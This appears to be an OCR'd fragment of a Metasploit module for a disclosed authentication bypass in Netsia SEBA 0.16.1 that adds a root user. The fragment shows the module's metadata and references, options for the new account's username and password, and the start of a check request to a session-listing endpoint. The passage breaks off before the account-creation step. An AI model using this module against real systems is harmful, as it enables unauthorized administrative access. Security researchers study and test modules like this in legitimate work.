 ```

          [ 'CVE', '' ],

          [ 'URL', 'https://www.pentest.com.tr/exploits/Netsia-SEBA-0-16-1-Authentication-Bypass-Add-Root-User-Metasploit.html' ],

          [ 'URL', 'https://www.netsia.com' ]

        ],

      'Author'         =&gt;

        [

          'Özkan Mustafa AKKUŞ ' # Discovery &amp; PoC &amp; MSF Module @ehakkus

        ],

      'License'        =&gt; MSF_LICENSE,

      'DisclosureDate' =&gt; "2021-01-06",

      'DefaultOptions' =&gt; `{` 'SSL' =&gt; true `}`

    ))

 

    register_options(

      [

        Opt::RPORT(443),

        OptString.new('USERNAME', [true, 'The username for your new account']),

        OptString.new('PASSWORD', [true, 'The password for your new account', Rex::Text.rand_text_alphanumeric(14)])

      ])

  end

 

  def peer

    "#`{`ssl ? 'https://' : 'http://' `}`#`{`rhost`}`:#`{`rport`}`"

  end

 

  def check

    begin

    res = send_request_cgi(

          'method'  =&gt; 'GET',

          'uri' =&gt; normalize_uri(target_uri.path, "session", "list", "allActiveSession"),

```
